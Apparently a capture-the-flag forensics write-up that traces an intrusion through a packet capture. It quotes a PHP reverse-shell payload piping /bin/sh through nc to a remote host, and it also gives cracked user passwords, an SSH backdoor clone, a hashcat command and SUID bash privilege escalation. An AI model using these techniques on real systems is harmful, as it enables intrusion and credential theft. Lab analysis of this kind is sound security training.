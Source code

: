 Reviewed capture. Saw two busiest users where 192.168.170.159 and 140.82.118.4

"Address","Packets","Bytes","Tx Packets","Tx Bytes","Rx Packets","Rx Bytes","Country","City","AS Number","AS Organization"
"192.168.170.159",3840,3753541,1727,185181,2113,3568360,"","","",""
"140.82.118.4",3228,3563541,1765,3474726,1463,88815,"","","",""
"192.168.170.145",608,189576,346,93372,262,96204,"","","",""
"192.168.170.1",21,10352,21,10352,0,0,"","","",""
"239.255.255.250",14,9772,0,0,14,9772,"","","",""
"192.168.170.2",4,424,2,262,2,162,"","","",""
"192.168.170.138",4,860,2,428,2,432,"","","",""
"224.0.0.251",4,400,0,0,4,400,"","","",""
"224.0.0.22",3,180,0,0,3,180,"","","",""
"91.189.91.157",2,180,1,90,1,90,"","","",""
"192.168.170.254",2,680,1,342,1,338,"","","",""

Used wireshark filter (ip.addr==140.82.118.4) || (ip.addr==192.168.170.159) to see their traffic.
Followed http traffic and found this upload:
	<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
	
Once Reverse shell was establish intruder used this to esc priv james: whenevernoteartinstant

Intruder continued to cat shadow. Found user passwords hackable by fasttrack word list.
	secuirty3        (paradox)
	secret12         (bee)
	abcd123          (szymex)
	1qaz2wsx         (muirland)

Attacker continued to install back door with git clone https://github.com/NinjaJc01/ssh-backdoor

	Found hard coded user hash and hard coded salt. 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05

With that I could use hash cat to break intruder pass:
	hashcat -m 1710 -o results.txt hash.txt /usr/share/wordlists/rockyou.txt

Once done had to recreate attack. Sshed into infected box.
	ssh james@<ip> -p 2222
	
Once there found used search to find
	find /home/james/ -perm /4000
	./.suid_bash -h
	./.suid_bash -p


